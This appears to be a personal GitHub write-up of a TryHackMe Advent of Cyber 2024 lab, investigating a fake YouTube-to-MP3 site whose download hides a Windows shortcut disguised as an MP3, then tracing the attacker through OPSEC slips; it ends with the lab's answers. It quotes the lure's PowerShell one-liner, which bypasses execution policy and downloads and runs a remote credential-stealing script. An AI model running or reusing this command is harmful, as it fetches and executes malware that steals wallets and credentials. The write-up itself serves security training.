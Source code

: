 # 🎄 TryHackMe Advent of Cyber 2024 – Day 1: OPSEC Challenge

## Objectives 🎯

Day 1 begins the **Advent of Cyber 2024** with an exciting challenge to investigate a suspicious YouTube to MP3 converter website. The focus is on:
1. Analyzing downloaded files to uncover malicious behavior.
2. Investigating embedded metadata and suspicious scripts.
3. Tracing the attacker’s digital breadcrumbs to expose their OPSEC mistakes.

## Steps 🚀

### Step 1: Investigating the Website
1. **Access the website:**  
   Hosted at `10.10.200.221`, the site appeared to be a standard YouTube to MP3 converter.
2. **Download the files:**  
   I entered a YouTube link, which downloaded a `download.zip` file containing:
   - **`song.mp3`**: A legitimate audio file.
   - **`somg.mp3`**: A suspiciously named file.

### Step 2: File Analysis Using ExifTool
- **Analyzing `song.mp3`:**  
  Running `exiftool song.mp3` revealed nothing unusual—just a standard MP3 file.
- **Analyzing `somg.mp3`:**  
  Running `exiftool somg.mp3` revealed:
  - It was a Windows Shortcut file (`.lnk`), not an MP3.
  - Metadata contained an embedded PowerShell command:
    ```
    -ep Bypass -nop -c "(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1','C:\ProgramData\s.ps1'); iex (Get-Content 'C:\ProgramData\s.ps1' -Raw)"
    ```
  This command bypasses PowerShell execution policies, downloads a malicious script, and executes it.

### Step 3: Opening the Embedded URL
- **Inspect the URL:**  
  The URL hosted a PowerShell script designed to steal:
  - Cryptocurrency wallet files.
  - Browser credentials.
- **C2 Server:**  
  Stolen data was sent to a Command and Control (C2) server controlled by the attacker.

### Step 4: Tracing the Attacker on GitHub
- **Signature in Script:**  
  The script contained the signature:
  ```
  "Created by the one and only M.M."
  ```
- **Search Results:**  
  Searching GitHub for `"Created by the one and only M.M."` led to:
  - A repository owned by **M.M.**
  - Comments tying their account to malicious activity.

## Key Findings 🔑

1. **Legitimate File:** `song.mp3` was harmless.
2. **Malicious File:** `somg.mp3` contained a PowerShell command to execute a malicious script.
3. **C2 Server:** The attacker’s script sent stolen data to a remote server.
4. **Attacker Identity:** Poor OPSEC practices on GitHub exposed "M.M."

## Lessons Learned 🌟

### OPSEC Failures
1. **Reused Aliases:**  
   The attacker used the same alias ("M.M.") across platforms, making them easier to track.
2. **Identifiable Metadata:**  
   Including a signature in the script created a direct link to their identity.
3. **Public Interactions:**  
   GitHub comments connected their profile to the malicious activity.

### Tools and Techniques 🛠️
1. [ExifTool](https://exiftool.org/) – Extracted metadata to uncover the embedded PowerShell command.
2. **Browser Inspection:** Investigated URLs to find malicious scripts.
3. [GitHub Search](https://github.com/) – Traced the attacker through their digital breadcrumbs.

## Final Thoughts 🎁

Day 1 was an excellent introduction to metadata analysis and attacker investigation. Tracking down M.M. using GitHub highlighted how OPSEC failures can leave attackers exposed. This challenge provided a perfect mix of technical analysis and detective work to kick off the Advent of Cyber!

### Answers ✅
1. **What file was harmless?**  
   **Answer:** `song.mp3`
2. **What was the embedded PowerShell command used for?**  
   **Answer:** Bypassed execution policies, downloaded a malicious script, and executed it.
3. **What is the attacker’s alias?**  
   **Answer:** `M.M.`

## Table of Contents 📚

- [Main Page](README.md)
- **Day 1: OPSEC Challenge**
- [Day 2: Log Analysis](day2.md)
- [Day 3: Log Analysis](day3.md)
- [Day 4: Atomic Red Team](day4.md)
- [Day 5: XXE Exploitation](day5.md)
- [Day 6: Sandboxes](day6.md)
- [Day 7: AWS Log Analysis](day7.md)
- [Day 8: Shellcodes](day8.md)
- [Day 9: Risk Assessment](day9.md)
- [Day 10: Phishing](day_10.md)
- [Day 11: Wi-Fi Attacks](day_11.md)
- [More Days to Come!](#)
```
